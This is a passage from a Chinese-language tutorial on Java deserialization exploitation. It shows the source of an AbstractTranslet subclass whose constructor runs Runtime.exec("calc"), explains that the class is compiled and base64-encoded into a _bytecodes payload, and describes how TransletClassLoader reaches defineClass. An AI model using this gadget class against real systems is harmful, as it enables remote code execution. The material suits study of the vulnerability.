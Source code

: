 上面的`text`里面的`_bytecodes`的内容是以下内容编译成字节码文件后（`.class`）再`base64`编码后的结果：

```plain
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Test extends AbstractTranslet {
    public Test() throws IOException {
        Runtime.getRuntime().exec("calc");
    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }

    @Override
    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws TransletException {

    }

    public static void main(String[] args) throws Exception {
        Test t = new Test();
    }
}
```

可以看到，我们通过以上代码直接定义类`Test`，并在类的构造方法中执行`calc`的命令；至于为什么要写上述代码的第`14`\-`21`行，因为`Test`类是继承`AbstractTranslet`的，上述代码的两个`transform`方法都是实现`AbstractTranslet`接口的抽象方法，因此都是需要的；具体来说的话，第一个`transform`带有`SerializationHandler`参数，是为了把`XML`文档转换为另一种格式，第二个`transform`带有`DTMAxisIterator`参数，是为了对`XML`文档中的节点进行迭代。  
**总结：**对于上述代码，应该这么理解：建立`Test`类，并让其继承`AbstractTranslet`类，然后通过`Test t = new Test();`来初始化，这样我就是假装要把`xml`文档转换为另一种格式，在此过程中会触发构造方法，而我在构造方法中的代码就是执行`calc`，所以会弹出计算器。

#### ①问题 1：为什么要继承`AbstractTranslet`类？

参考`Y4tacker`师傅的文章：

> [https://blog.csdn.net/solitudi/article/details/119082164](https://blog.csdn.net/solitudi/article/details/119082164)

但是在实战场景中，`Java`的`ClassLoader`类提供了`defineClass()`方法，可以把字节数组转换成`Java`类的示例，但是这里面的方法的作用域是被`Protected`修饰的，也就是说这个方法只能在`ClassLoader`类中访问，不能被其他包中的类访问：  
[![](assets/1706233003-cb112962e5ff43499cec67360468ad78.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240124170447-9fb9a924-ba97-1.jpeg)  
但是，在`TransletClassLoader`类中，`defineClass`调用了`ClassLoader`里面的`defineClass`方法：  